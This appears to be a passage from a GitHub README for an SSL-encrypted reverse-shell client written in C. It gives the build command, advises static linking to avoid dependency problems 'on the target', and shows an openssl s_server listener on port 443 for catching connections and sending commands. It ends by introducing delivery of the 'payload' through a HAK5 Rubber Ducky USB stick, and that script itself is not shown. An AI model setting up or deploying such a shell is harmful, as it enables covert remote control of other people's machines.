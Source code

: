 

## Compilation and Usage :
 
  Before compiling, please make sure you have the OpenSSL dev package installed.
  Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>

  You will probably want to link statically against the library to avoid dependencies issues on the target. 
  You can either use [ncat](http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .
  To test the client, you can use openssl s_server utility on your server and wait for connections: </br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>



## Rubber Ducky Script :
  
  This script illusrates a simple use case scenario where we deliver our payload using HAK5 [Rubber Ducky USB stick](https://ducktoolkit.com).
